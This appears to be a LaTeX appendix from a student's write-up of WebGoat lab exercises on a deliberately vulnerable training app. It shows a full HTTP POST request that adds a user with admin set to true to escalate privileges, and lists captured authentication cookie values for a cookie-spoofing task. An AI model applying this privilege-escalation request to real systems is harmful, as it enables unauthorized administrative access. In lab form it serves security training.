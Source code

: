\documentclass[
	letterpaper, %
	10pt, %
	unnumberedsections, %
	twoside, %
]{APAAssignment}
\begin{document}
\begin{appendices}
\begin{figure} %
	\texttt{[image: Pasted image 20240826110246.png]}
	\caption{}
	\label{fig:HijackCookieSolvedCheck}
\end{figure}


Changeing the http request on /access-control users to a post allows you to add users. Hack is to add a user with same username as you are logged in with, with admin set to 'true'

\begin{verbatim}
POST /WebGoat/access-control/users HTTP/1.1 Host: localhost:8080
Content-Length: 69 sec-ch-ua: ``Chromium'';v=``127'',
``Not)A;Brand'';v=``99'' Accept-Language: en-US Content-Type:
application/json sec-ch-ua-mobile: ?0 User-Agent: Mozilla/5.0 (Windows
NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Chrome/127.0.6533.100 Safari/537.36 Content-Type:
application/x-www-form-urlencoded; charset=UTF-8 Accept: \emph{/}
X-Requested-With: XMLHttpRequest sec-ch-ua-platform: ``Linux'' Origin:
http://localhost:8080 Sec-Fetch-Site: same-origin Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty Referer:
http://localhost:8080/WebGoat/start.mvc?username=kjcyber252
Accept-Encoding: gzip, deflate, br Cookie:
JSESSIONID=9MdqtloBfxss7Zze227G7f3Q9DAVHbMsF8T5w5tj Connection:
keep-alive

\{ ``username'' :``kjcyber252'', ``password'' :"``,''admin" :true \}

\end{verbatim}

This allows for accessing the /access-control/users-admin-fix endpoint and get hash key for Jerry



\begin{figure} %
	\texttt{[image: Pasted image 20240826125552.png]}
	\caption{}
	\label{fig:HijackCookieSolvedCheck}
\end{figure}

\begin{figure} %
	\texttt{[image: Pasted image 20240826130101.png]}
	\caption{}
	\label{fig:HijackCookieSolvedCheck}
\end{figure}


\subsection{3.3 Spoofing an Authentication Cookie}
Got the 2 hashes from logging in using the provided credentials:\\
webgoat: NmQ2YzcyNDg1NTU2NDY3MjYyNjg3NDYxNmY2NzYyNjU3Nw==
admin:      NmQ2YzcyNDg1NTU2NDY3MjYyNjg2ZTY5NmQ2NDYx


\end{appendices}
\end{document}
